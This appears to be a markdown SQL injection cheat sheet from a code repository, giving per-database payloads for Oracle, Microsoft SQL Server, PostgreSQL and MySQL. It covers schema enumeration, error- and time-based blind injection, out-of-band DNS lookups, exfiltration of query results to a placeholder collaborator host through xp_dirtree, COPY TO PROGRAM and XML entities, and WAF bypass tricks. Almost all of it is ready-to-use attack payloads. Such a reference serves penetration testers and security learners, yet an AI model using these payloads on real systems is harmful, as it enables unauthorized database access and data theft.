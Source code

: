 ## SQL Injection Cheat Sheet

### Comments

> Oracle, Microsoft, PostgreSQL - `--comment`  
> Microsoft, PostgreSQL, MySQL - `/*comment*/`  
> MySQL - `#comment`, `-- comment`

### Database Version

> Oracle - `SELECT banner FROM v$version`, `SELECT version FROM v$instance`, `SELECT * FROM v$version`
> Microsoft, MySQL - `SELECT @@version`  
> PostgreSQL - `SELECT version()`

### Database contents

```
# Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE_NAME'

# Microsoft, PostgreSQL, MySQL
SELECT * FROM information_schema.tables
# columns - TABLE_CATALOG, TABLE_SCHEMA, TABLE_NAME, TABLE_TYPE

SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'
# columns - TABLE_CATALOG, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME, DATA_TYPE
```

### String Concatenation

> Oracle, PostgreSQL - `'foo' || 'bar'`  
> Microsoft - `'foo'+'bar'`  
> MySQL - `'foo' 'bar'`, `CONCAT('foo', 'bar')`

### Substring

> Oracle - `SUBSTR('foobar', 4, 2) Microsoft, PostgreSQL, MySQL - `SUBSTRING('foobar', 4, 2)

### Conditional Errors

```
# Oracle
SELECT CASE WHEN (YOUR_CONDITION_HERE)
    THEN_TO_CHAR(1/0)
    ELSE NULL
    END FROM dual

# Microsoft
SELECT CASE WHEN (YOUR_CONDITION_HERE)
    THEN 1/0
    ELSE NULL END

# PostgreSQL
1 = (SELECT CASE WHEN (YOUR_CONDITION_HERE)
    THEN CAST(1/0 AS INTEGER)
    ELSE NULL END)

# MySQL
SELECT IF (YOUR_CONDITION_HERE,
    (SELECT table_name FROM information_schema.tables), 'a')
```

### Time delays

> Oracle - dbms_pipe.receive_message(('a'), 10)  
> Microsoft - WAITFOR DELAY '0:0:10'  
> PostgreSQL - SELECT pg_sleep(10)  
> MySQL - SELECT SLEEP(10)

### Conditional time delay

```sql
# oracle
SELECT CASE WHEN (CONDITION_HERE)
    THEN 'a' || dbms_pipe.receive_message(('a'), 10)
    ELSE NULL
    END FROM dual

# Microsoft
IF (CONDITION_HERE) WAITFOR DELAY '0:0:10'

# PostgreSQL
SELECT CASE WHEN (CONDITION_HERE)
    THEN pg_sleep(10)
    ELSE pg_sleep(0)
    END

# MySQL
SELECT IF (CONDITION_HERE, SLEEP(10), 'a')

```

### DNS Lookup

- Oracle

```sql
# unpatched
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--

# patched but requires elevated privileges
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

- Microsoft

```
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

- PostgreSQL

```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

- MySQL (windows only)

```
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

### DNS lookup with data exfiltration

- Oracle

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

- Microsoft

```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

- PostgreSQL

```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

- MySQL The following technique works on Windows only:

```
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

### WAF bypass

- No whitespace using comments - `'/**/OR/**/1=1/**/--`
- No whitespace using parenthesis - `AND(1)=(1)--`
- No equal using LIKE, (NOT) IN, BETWEEN - `'text' LIKE 'text'`, `'text' IN 'text'`, `'b' BETWEEN 'a' AND 'c'`
- No AND or OR - `&&` and `||`
- No > or < - `NOT BETWEEN a AND b`
- No WHERE - `HAVING`
- No comma
```
LIMIT 0,1 => LIMIT 1 OFFSET 0
SUBSTR('ABC', 1, 1) => SUBSTR('ABC' FROM 1 FOR 1)
SELECT 1, 2, 3 => UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c
```
- No information_schema.tables - `SELECT * FROM mysql.innodb_table_stats;`, `SHOW TABLES in db;`


